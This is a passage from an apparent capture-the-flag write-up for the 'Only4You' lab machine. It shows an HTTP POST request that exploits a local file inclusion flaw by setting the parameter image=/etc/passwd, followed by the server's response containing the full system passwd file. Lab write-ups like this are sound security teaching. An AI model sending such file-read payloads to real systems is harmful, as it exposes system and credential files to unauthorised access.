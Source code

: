 Using the following HTTP request, we can obtain LFI:
```http
POST /download HTTP/1.1
Host: beta.only4you.htb
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Connection: close
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiSW1hZ2UgZG9lc24ndCBleGlzdCEiXX1dfQ.ZLRSeQ.g7mWPjJOnBrXGAH2jWXCOfyz200; HttpOnly; Path=/ 
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Content-Length: 17

image=/etc/passwd
```

And we receive the following response:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jul 2023 20:26:52 GMT
Content-Type: application/octet-stream
Content-Length: 2079
Connection: close
Content-Disposition: attachment; filename=passwd
Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
Cache-Control: no-cache
ETag: "1680178340.2049809-2079-393413677"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
```